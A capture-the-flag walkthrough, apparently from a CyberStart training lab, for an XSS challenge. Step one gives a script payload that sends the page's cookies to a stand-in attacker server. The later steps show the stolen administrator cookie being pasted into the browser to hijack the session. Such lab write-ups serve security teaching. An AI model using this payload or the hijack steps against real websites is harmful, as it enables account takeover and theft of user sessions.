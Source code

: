 # Unsafe Deposit Box
Agent 707, we've been working with the bank to try and make their website more secure, which will hopefully prevent the Bulldogs getting access.

As part of our penetration testing we've found a page which might be vulnerable to XSS. It's the page you use to request further information about safety deposit boxes. You need to be logged in as a standard bank customer to get to that page, but we think you can use XSS to change the access level to admin. Give it a try.

**Tip:** Get admin access to the site to get the flag.

## Steps
1. Type in *\<script>window.location = "server" + document.cookie\</script>* in *Name* or *Phone* text box
    - Replace *server* with where it says after *Server started* on at the top

![console server](/assets/screenshots/hq-11-UnsafeDepositBox/step-1.png)

![XSS code](/assets/screenshots/hq-11-UnsafeDepositBox/step-2.png)
 
2. Click the Submit button
1. Copy the administrator cookie value that generates at the top and go into *Cookies* using *Inspect*
    - Inspect > Application > Cookies > https://play.cyberstart.com

![admin cookie](/assets/screenshots/hq-11-UnsafeDepositBox/step-3.png)

![application location](/assets/screenshots/hq-11-UnsafeDepositBox/step-4.png)

![cookie location](/assets/screenshots/hq-11-UnsafeDepositBox/step-5.png)

4. Replace the *depositUser* cookie value with the copied administrator cookie value

![replace depositUser cookie](/assets/screenshots/hq-11-UnsafeDepositBox/step-6.png)

5. Refresh the page
